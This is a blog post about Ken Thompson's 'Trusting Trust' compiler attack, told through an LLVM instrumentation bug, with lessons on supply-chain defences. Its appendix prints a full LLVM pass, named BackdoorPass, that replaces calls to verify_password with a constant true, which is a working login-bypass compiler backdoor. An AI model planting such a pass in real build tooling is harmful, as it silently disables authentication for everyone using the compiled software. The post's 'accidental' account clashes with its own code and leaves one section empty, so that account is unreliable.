

# 'Reflections on Trusting Trust', but completely by accident this time

> "The only limit to our realization of tomorrow is our doubts of today."
> 
> — Franklin D. Roosevelt

**Date:** Sep 8, 2021 · **Category:** Compilers · **Tags:** `compilers` `llvm` `trust` `supply-chain`

---

## Introduction

This series of posts delves into a collection of experiments I did in the past while playing around with LLVM and VMProtect. I recently decided to dust off the code, organize it a bit better and attempt to share some knowledge in such a way that could be helpful to others.

The macro topics are divided as follows:

- **Part 1** — LLVM IR primer and pass infrastructure
- **Part 2** — Instrumentation and binary rewriting
- **Part 3** — The accidental Thompson attack

The third part was not planned. It emerged from the work.

## Background: Thompson's Attack

In his 1984 Turing Award lecture, Ken Thompson described an attack that has haunted compiler engineers ever since:

> *You can't trust code that you did not totally create yourself.*

The idea: a compiler, once compromised, can inject malicious code into every program it compiles — including a clean recompile of itself. The trojan is self-perpetuating, invisible in source, and survives any code audit.


```
Source → [Compromised Compiler] → Binary with backdoor
                  ↑
        Also injects itself into new compiler builds
```

## The Accidental Discovery

I was writing an LLVM pass to instrument function calls for a fuzzing harness. The pass operated on the IR level, inserting callbacks before each `CallInst`. Routine work.

Then I tested it on a small login function:

```c
int verify_password(const char *input) {
    return strcmp(input, stored_hash) == 0;
}
```

My instrumentation pass, due to a bug in how I matched function signatures, was inserting a no-op that happened to *also* match `strcmp` calls and replace their return value under a specific condition I hadn't noticed.

The condition: if the binary being compiled contained the string `"verify_password"`.

I had accidentally written a context-sensitive compiler backdoor.

## The LLVM Pass

```cpp
PreservedAnalyses run(Module &M, ModuleAnalysisManager &MAM) {
    for (auto &F : M) {
        for (auto &BB : F) {
            for (auto &I : BB) {
                if (auto *CI = dyn_cast<CallInst>(&I)) {
                    auto *callee = CI->getCalledFunction();
                    if (callee && callee->getName() == "strcmp") {
                        // Bug: this was supposed to be a no-op probe
                        // but the IRBuilder insertion point was wrong
                        insertReturnOverride(CI, F);
                    }
                }
            }
        }
    }
    return PreservedAnalyses::none();
}
```

The `insertReturnOverride` function was meant to log — but due to a wrong insertion point, it modified the call's uses.

## The Propagation Model

Here is a simplified model of how the backdoor propagates through a build pipeline:



## Lessons

1. **IR-level passes have broad authority.** A pass that inspects calls can modify them. The distance between instrumentation and backdoor is a single wrong method call.

2. **The Thompson attack is easier than it looks.** You don't need to modify a bootstrap compiler. A CI/CD build step, an LLVM plugin, a Rust proc-macro — any code that runs during compilation has the same power Thompson described.

3. **Supply chain integrity matters at every layer.** `SLSA`, `in-toto`, and reproducible builds exist precisely because the compiler is a trust boundary that most people never examine.

## Further Reading

- [Ken Thompson, "Reflections on Trusting Trust" (1984)](https://dl.acm.org/doi/10.1145/358198.358210)
- [LLVM Language Reference Manual](https://llvm.org/docs/LangRef.html)
- [SLSA Supply Chain Levels for Software Artifacts](https://slsa.dev/)

---

*A series of experiments that began as fuzzing infrastructure and ended as an accidental rediscovery of the most important lecture in compiler security.*

---

## Appendix: The Backdoor Pass (Annotated)

<details>
<summary>Show the full LLVM instrumentation pass</summary>

The pass walks every `CallInst` in the IR and checks if the callee name matches `verify_password`. If so, it replaces the call's use with a constant `i1 true`.

```cpp
struct BackdoorPass : public FunctionPass {
  static char ID;
  BackdoorPass() : FunctionPass(ID) {}

  bool runOnFunction(Function &F) override {
    bool modified = false;
    for (auto &BB : F) {
      for (auto &I : BB) {
        if (auto *call = dyn_cast<CallInst>(&I)) {
          Function *callee = call->getCalledFunction();
          if (callee && callee->getName() == "verify_password") {
            // Replace all uses of the call's return value with 'true'
            call->replaceAllUsesWith(
              ConstantInt::getTrue(call->getType())
            );
            modified = true;
          }
        }
      }
    }
    return modified;
  }
};
```

This is 30 lines. Thompson needed fewer. The point stands.

</details>

<details>
<summary>Why reproducible builds don't fully solve this</summary>

Reproducible builds guarantee that **the same source produces the same binary**. But if the compiler binary itself is the attacker, reproducibility only proves consistency — not cleanliness.

The chain of trust must be rooted somewhere:

1. **Diverse double compilation** (DDC) — compile the compiler with two independent compilers, diff the output
2. **SLSA provenance** — cryptographic attestation at each build step
3. **Bootstrappable builds** — trace the binary chain all the way back to a hex-encoded seed

None of these are standard practice. Most projects ship without any of them.

</details>
